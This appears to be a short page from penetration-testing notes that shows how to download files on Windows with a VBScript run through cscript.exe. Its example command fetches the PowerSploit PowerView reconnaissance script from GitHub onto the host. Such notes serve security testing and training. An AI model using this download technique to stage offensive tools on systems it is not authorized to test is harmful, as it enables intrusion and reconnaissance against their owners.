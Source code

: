 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# VBScript Download

VBScript is an Active Scripting language.

**Create a file with the below contents:**

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

**Run the script file using `cscript.exe`:**

```powershell
C:\> cscript.exe /nologo get.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```
